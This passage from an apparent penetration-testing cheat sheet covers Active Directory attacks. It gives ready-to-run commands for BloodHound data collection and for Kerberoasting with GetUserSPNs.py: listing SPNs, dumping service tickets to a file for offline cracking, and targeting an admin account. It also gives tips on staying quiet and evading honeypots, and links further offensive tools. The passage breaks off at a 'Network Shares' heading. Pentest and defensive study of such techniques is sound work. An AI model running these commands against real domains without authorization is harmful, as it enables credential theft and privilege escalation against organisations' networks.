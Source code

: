 
### BloodHound <a name="3.1"></a>

Definietly loud, but [BloodHound](https://github.com/BloodHoundAD/BloodHound/releases) is a great tool for surgically finding attack paths and automated recon.

For the actual data collection:

[https://github.com/dirkjanm/BloodHound.py](https://github.com/dirkjanm/BloodHound.py)


This is quite loud as it includes the `loggedon` argument:

`bloodhound -c all,loggedon -u username -p password -d domain.com -dc <DC NAME> --zip`

You can omit `loggedon` if you want, or try `-c dconly`.

Once you get the data it's really up to you, and the environment as to what to exploit/leverage.

Custom queries are a good way to expand your `bloodhound`:

- [https://github.com/LuemmelSec/Custom-BloodHound-Queries](https://github.com/LuemmelSec/Custom-BloodHound-Queries)
- [https://github.com/ZephrFish/Bloodhound-CustomQueries](https://github.com/ZephrFish/Bloodhound-CustomQueries)
- [https://github.com/CompassSecurity/BloodHoundQueries](https://github.com/CompassSecurity/BloodHoundQueries)


#### bloodyAD

[https://github.com/CravateRouge/bloodyAD](https://github.com/CravateRouge/bloodyAD)

This is a great Linux AD tool to use alongside BloodHound.


### Kerberoasting <a name="3.2"></a>

Kerberoasting can be a quick way to escalate. But be weary, make sure each account looks legit before pulling every SPN. SPNs are a prime spot for honeypots. Even though this is aimed at pentesting, being aware of your footprint is something I try to keep in mind.

List SPNs:

`GetUserSPNs.py domain.com/username -dc-ip x.x.x.x`

Normal Kerberoast:

`GetUserSPNs.py domain.com/username -request -outputfile tgs.txt -dc-ip x.x.x.x ` 

Targeted Kerberoast:

`GetUserSPNs.py domain.com/username -request-user admin_account -dc-ip x.x.x.x`

Custom Kerberoasting:

The tool [Orpheus](https://github.com/trustedsec/orpheus) is a wrapper for `GetUserSPNs.py` that allows you to control the Ticket Options and Encryption Type while requesting a TGS which helps you blend in.


### Network Shares <a name="3.3"></a>
